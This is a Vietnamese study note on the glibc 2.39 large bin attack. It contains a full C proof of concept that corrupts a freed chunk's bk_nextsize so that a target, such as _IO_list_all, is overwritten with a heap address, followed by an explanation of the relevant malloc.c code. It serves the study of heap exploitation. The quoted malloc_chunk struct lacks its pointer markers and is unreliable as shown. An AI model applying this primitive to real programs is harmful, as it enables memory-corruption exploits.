

<details>
<summary> <strong> Description </strong></summary>
<p>

Kĩ thuật này được sử dụng để gán `_IO_list_all` thành một địa chỉ trên heap.

</p>
</details>

<details>
<summary><strong>POC</strong></summary>
<p>

Kĩ thuật này được chạy trên glibc `2.39`.

```c
#include<stdio.h>
#include<stdlib.h>
#include<assert.h>

/*
A revisit to large bin attack for after glibc2.30

Relevant code snippet :

	if ((unsigned long) (size) < (unsigned long) chunksize_nomask (bck->bk)){
		fwd = bck;
		bck = bck->bk;
		victim->fd_nextsize = fwd->fd;
		victim->bk_nextsize = fwd->fd->bk_nextsize;
		fwd->fd->bk_nextsize = victim->bk_nextsize->fd_nextsize = victim;
	}
*/

int main(){
  /*Disable IO buffering to prevent stream from interfering with heap*/
  setvbuf(stdin,NULL,_IONBF,0);
  setvbuf(stdout,NULL,_IONBF,0);
  setvbuf(stderr,NULL,_IONBF,0);

  size_t target = 0;
  printf("Here is the target we want to overwrite (%p) : %lu\n\n",&target,target);

  size_t *p1 = malloc(0x428); // Allocate a large chunk
  size_t *g1 = malloc(0x18); // padding

  
  size_t *p2 = malloc(0x418); // Allocate another large chunk, this chunk should be smaller than [p1]
  size_t *g2 = malloc(0x18); // padding


  free(p1); // put [p1] to unsortedbin
  size_t *g3 = malloc(0x438); // Allocate a chunk, that is larger than [p1], to put [p1] to largebin


  free(p2); // put [p2] to unsortedbin

  p1[3] = (size_t)((&target) - 4); // modify p1->bk_nextsize to [target - 0x20]

  size_t *g4 = malloc(0x438); // Allocate a chunk, that is larger than [p2], to put [p2] to largebin
  // now, target == (size_t)(p2 - 2), that means target points to a chunk in heap 

  printf("In our case here, target is now overwritten to address of [p2] (%p), [target] (%p)\n", p2 - 2, (void *)target);
  printf("Target (%p) : %p\n", &target, (size_t*)target);

  assert((size_t)(p2 - 2) == target);

  return 0;
}
```

</p>
</details>

<details>
<summary><strong>Explain</strong></summary>
<p>


Đầu tiên, đây là struct của `malloc_chunk`:
```c
struct malloc_chunk {
    INTERNAL_SIZE_T      mchunk_prev_size;  /* Size of previous chunk, if it is free. */
  INTERNAL_SIZE_T      mchunk_size;       /* Size in bytes, including overhead. */
  struct malloc_chunk fd;                /* double links -- used only if this chunk is free. */
  struct malloc_chunk bk;
  /* Only used for large blocks: pointer to next larger size.  */
  struct malloc_chunk fd_nextsize; /* double links -- used only if this chunk is free. */
  struct malloc_chunk bk_nextsize;
};
```



- <code>victim</code> là chunk hiện tại đang muốn nhét vào largebin 
- <code>bck</code> ban đầu là <code>main_arena</code>
- <code>fwd</code> ban đầu là chunk đầu tiên trong largebin index được lấy ra


Tôi sẽ thay head chunk trong largebin đc lấy ra là `p1` và `victim` thành `p2` để cho giống với trong `POC`.

Ta thấy được là largebin ở index đó không rỗng và `p2` cũng có size bé hơn `p1` nên nó sẽ chạy vào dòng [4183](https://elixir.bootlin.com/glibc/glibc-2.39/source/malloc/malloc.c#L4183).

Ở đây ta thấy:
- `p2->fd_nextsize` = `p1` 
- `p2->bk_nextsize` = `p1->bk_nextsize` 
- `p1->bk_nextsize->fd_nextsize` = `p2` 
- `p1->bk_nextsize` = `p2`

Vậy nên ta sẽ gán được `_IO_list_all` thành `p2 - 0x10`

</p>
</details>

<details>
<summary><strong>Ref</strong></summary>
<p>

- https://github.com/shellphish/how2heap/blob/master/glibc_2.39/large_bin_attack.c
- https://elixir.bootlin.com/glibc/glibc-2.39/source/malloc/malloc.c#L4070

</p>
</details>